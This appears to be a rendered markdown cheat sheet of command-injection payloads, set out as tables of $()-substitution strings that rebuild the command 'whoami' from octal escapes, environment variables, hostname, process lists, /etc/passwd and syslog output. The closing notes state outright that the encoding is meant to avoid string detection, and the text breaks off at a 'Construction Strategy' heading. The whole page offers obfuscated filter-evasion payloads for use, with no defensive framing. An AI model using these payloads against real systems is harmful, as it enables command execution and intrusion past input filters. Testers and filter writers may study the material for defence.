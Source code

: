 ### File Content Manipulation

|Technique|Example|Explanation|
|---|---|---|
|Password Extract|$(grep -o "...." /etc/passwd\|head -1\|sed 's/root/whoa/'\|sed 's/a/ami/')|Manipulates password file content|
|Hostname Mix|$(h=`hostname`;printf "%b" "\167\150"${h:0:1}"\141\155\151")|Combines hostname with octal|
|Process Info|$(ps -ef\|cut -c1-6\|head -1\|sed 's/[0-9]//g'\|sed 's/[A-Z]/who/'\|sed 's/$/ami/')|Uses process information|
|System Log|$(cat /var/log/syslog 2>/dev/null\|head -1\|cut -c1-3\|sed 's/.*/who/';echo ami)|Leverages system logs|
|File Stats|$(stat /etc/passwd\|tr -cd '[w-z]'\|head -c3;echo ami)|Uses file statistics|

### Environment Variable Construction

|Technique|Example|Explanation|
|---|---|---|
|Path Extract|$(p=$PATH;printf "%b" "\167\150"${p:0:1}"\141\155\151")|Uses PATH variable|
|User Info|$(u=$USER;printf "%b" "\167\150"${u:0:1}"\141\155\151")|Uses USER variable|
|Shell Path|$(s=$SHELL;printf "%b" "\167\150"${s:0:1}"\141\155\151")|Uses SHELL variable|
|Term Info|$(t=$TERM;printf "%b" "\167\150"${t:0:1}"\141\155\151")|Uses TERM variable|
|PWD Based|$(d=$PWD;printf "%b" "\167\150"${d:0:1}"\141\155\151")|Uses PWD variable|

### Advanced Combinations

| Technique     | Example                                                                          | Explanation               |
| ------------- | -------------------------------------------------------------------------------- | ------------------------- |
| Multi-Source  | $(h=`hostname`;p=$PATH;printf "%b" "\167\150"${h:0:1}${p:0:1}"\155\151")         | Combines multiple sources |
| Time-Based    | $(date +%N\|cut -c1-2\|xargs -I{} printf "%b" "\167\150\157\141\155\151")        | Uses timestamp            |
| Process-Based | $(ps -ef\|wc -l\|xargs -I{} printf "%b" "\167\150\157\141\155\151")              | Uses process count        |
| Memory-Based  | $(free\|grep Mem\|cut -c1-2\|xargs -I{} printf "%b" "\167\150\157\141\155\151")  | Uses memory info          |
| Random-Based  | $(od -An -N1 -i /dev/urandom\|xargs -I{} printf "%b" "\167\150\157\141\155\151") | Uses random data          |

## Important Notes

### Execution Considerations

1. Each technique ensures case sensitivity for proper execution
2. Character encoding methods avoid complete string detection
3. System resource availability affects reliability
4. Error handling may be necessary
5. Performance impact varies by method

### Construction Strategy
